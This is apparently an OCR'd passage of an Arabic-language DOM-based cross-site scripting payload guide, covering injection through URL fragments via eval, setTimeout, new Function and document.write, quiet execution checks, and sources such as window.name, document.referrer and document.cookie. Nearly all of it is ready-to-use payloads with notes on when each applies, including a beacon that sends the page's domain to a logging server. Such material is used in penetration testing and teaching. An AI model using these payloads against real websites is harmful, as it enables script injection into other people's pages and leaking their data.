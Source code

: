 #### ج. الحقن عبر دوال JavaScript
استخدام دوال JavaScript خطرة لتنفيذ الشيفرة.
- **الحقن**: `#eval('console.log(\"XSS\")')`
  - **الإدخال**: `https://example.com/#eval('console.log(\"XSS\")')`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم عبر `eval`.
  - **متى يُستخدم؟**: عندما تستخدم الصفحة `eval` لمعالجة الإدخال.
- **الحقن**: `#setTimeout('console.log(\"XSS\")',0)`
  - **الإدخال**: `https://example.com/#setTimeout('console.log(\"XSS\")',0)`
  - **كيف يعمل**: يسجل "XSS" عبر `setTimeout`.
  - **متى يُستخدم؟**: لاختبار التنفيذ المؤخر.
- **الحقن**: `#setInterval('alert(\"XSS\")',1000)`
  - **الإدخال**: `https://example.com/#setInterval('alert(\"XSS\")',1000)`
  - **كيف يعمل**: يُنفذ التنبيه بشكل متكرر عبر `setInterval`.
  - **متى يُستخدم؟**: لاختبار التنفيذ المتكرر.
- **الحقن**: `#new Function('alert(\"XSS\")')()`
  - **الإدخال**: `https://example.com/#new Function('alert(\"XSS\")')()`
  - **كيف يعمل**: يُنفذ التنبيه عبر باني `Function`.
  - **متى يُستخدم؟**: لتجاوز قيود `eval`.
- **الحقن**: `#document.write('<script>alert(\"XSS\")</script>')`
  - **الإدخال**: `https://example.com/#document.write('<script>alert(\"XSS\")</script>')`
  - **كيف يعمل**: يكتب وسم `<script>` في DOM.
  - **متى يُستخدم؟**: عند استخدام `document.write` للإدخال.

#### د. حقن بدون تنبيهات
استخدام حقن لتأكيد التنفيذ دون تنبيهات.
- **الحقن**: `#console.log('XSS: ' + document.domain)`
  - **الإدخال**: `https://example.com/#console.log('XSS: ' + document.domain)`
  - **كيف يعمل**: يسجل النطاق في وحدة التحكم.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون إزعاج.
- **الحقن**: `#document.title='XSS'`
  - **الإدخال**: `https://example.com/#document.title='XSS'`
  - **كيف يعمل**: يغير عنوان الصفحة إلى "XSS".
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.
- **الحقن**: `#document.body.style.background='red'`
  - **الإدخال**: `https://example.com/#document.body.style.background='red'`
  - **كيف يعمل**: يغير لون الخلفية إلى الأحمر.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.
- **الحقن**: `#new Image().src='http://localhost/log?c='+document.domain`
  - **الإدخال**: `https://example.com/#new Image().src='http://localhost/log?c='+document.domain`
  - **كيف يعمل**: يرسل النطاق إلى خادم خارجي.
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع إرسال بيانات.
- **الحقن**: `#console.error('XSS')`
  - **الإدخال**: `https://example.com/#console.error('XSS')`
  - **كيف يعمل**: يسجل خطأ في وحدة التحكم.
  - **متى يُستخدم؟**: لتأكيد التنفيذ عبر وحدة التحكم.

#### هـ. الحقن عبر مصادر أخرى
استخدام مصادر إدخال أخرى مثل `window.name` أو `document.referrer`.
- **الحقن**: `window.name=alert('XSS')`
  - **الإدخال**: نفّذ في وحدة التحكم أو عبر صفحة وسيطة: `window.name="alert('XSS')"`, ثم انتقل إلى `https://example.com`.
  - **كيف يعمل**: إذا استُخدمت `window.name` في `eval`، يُنفذ التنبيه.
  - **متى يُستخدم؟**: عندما تستخدم الصفحة `window.name`.
- **الحقن**: `document.referrer=javascript:alert('XSS')`
  - **الإدخال**: قم بإنشاء صفحة وسيطة ترسل المستخدم إلى `https://example.com` مع `referrer` معدل.
  - **كيف يعمل**: إذا استُخدم `document.referrer` في DOM، يُنفذ التنبيه.
  - **متى يُستخدم؟**: عند استخدام `referrer` كمصدر.
- **الحقن**: `#document.cookie`
  - **الإدخال**: `https://example.com/#document.cookie`
  - **كيف يعمل**: إذا استُخدمت القيمة في `innerHTML`، قد يُظهر ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لاختبار استخراج البيانات.

